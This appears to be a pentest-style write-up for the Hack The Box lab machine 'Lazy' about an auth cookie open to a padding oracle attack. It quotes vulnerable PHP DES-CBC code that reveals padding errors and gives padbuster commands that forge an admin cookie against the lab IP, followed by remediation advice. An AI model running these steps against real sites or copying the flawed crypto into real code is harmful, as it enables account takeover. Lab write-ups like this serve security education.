





<div align='center'>

# **HTB Lazy Pentest Report**

</div>

## **HTB-Lazy-01: Auth cookie is vulnerable to padding oracle attack [High]**

### **Description and Impact**

The auth cookie is used for determining who is logged in. The cookie is vulnerable to padding oracle attack which allows an attacker to forge a cookie and making the server think that the attacker is  logged in as admin's account.

### **Root-cause Analysis**

In the file `/var/www/html/classes/user.php`, there are two functions: `encryptString` and `decryptString`

```php
function encryptString($unencryptedText, $passphrase) { 
  $iv = mcrypt_create_iv( mcrypt_get_iv_size(MCRYPT_DES, MCRYPT_MODE_CBC), MCRYPT_RAND);
  $text = pkcs5_pad($unencryptedText,8);
  $enc = mcrypt_encrypt(MCRYPT_DES, $passphrase, $text, MCRYPT_MODE_CBC, $iv); 
  return base64_encode($iv.$enc); 
}

function decryptString($encryptedText, $passphrase) {
  $encrypted = base64_decode($encryptedText);
  $iv_size =  mcrypt_get_iv_size(MCRYPT_DES, MCRYPT_MODE_CBC);
  $iv = substr($encrypted,0,$iv_size);
  $dec = mcrypt_decrypt(MCRYPT_DES, $passphrase, substr($encrypted,$iv_size), MCRYPT_MODE_CBC, $iv);
  $str = pkcs5_unpad($dec); 
  if ($str === false) {
    echo "Invalid padding";
    die(); 
  }
  else {
    return $str; 
  }
}
```

The developer use DES with CBC mode. Moreover, the padding error is displayed clearly to the user (`Invalid padding`). This allows an attacker to use padding oracle attack to forge a cookie.

### **Steps to Reprocedure**

1. Register a new account with the following credentials:

        username: giang
        password: a

We get an auth cookie for the user `giang`. In this case, my cookie is

    auth: y93eOCigcmLxD58C7qjwjJ0BgPX%2BJgBP

2. Using the tool called [padbuster](https://github.com/AonCyberLabs/PadBuster) to perform padding oracle attack.

```zsh
padbuster http://10.10.10.18 y93eOCigcmLxD58C7qjwjJ0BgPX%2BJgBP 8 -cookies auth=y93eOCigcmLxD58C7qjwjJ0BgPX%2BJgBP
```

The tool will ask for entering an ID, enter 2



After running for a while, we get the following result:



3. Use `padbuster` again to forge a cookie for the user `admin`

```zsh
padbuster http://10.10.10.18 y93eOCigcmLxD58C7qjwjJ0BgPX%2BJgBP 8 -cookies auth=y93eOCigcmLxD58C7qjwjJ0BgPX%2BJgBP -plaintext user=admin
```

The tool will ask for entering an ID, enter 2



After running for a while, we get the new cookie for the user `admin`:

    auth: BAitGdYuupMjA3gl1aFoOwAAAAAAAAAA



4. Change the cookie in the browser to that value and refresh the page. We can see that we are logged in as `admin` now.



### **Recommendation**

1. Use a stronger encryption algorithm such as AES, and do not use CBC or ECB mode.
2. Use generic message when displaying error to the user such as 'Something wrong'.

### **References**

1. https://robertheaton.com/2013/07/29/padding-oracle-attack/
2. https://en.wikipedia.org/wiki/Padding_oracle_attack
3. https://www.youtube.com/watch?v=O5SeQxErXA4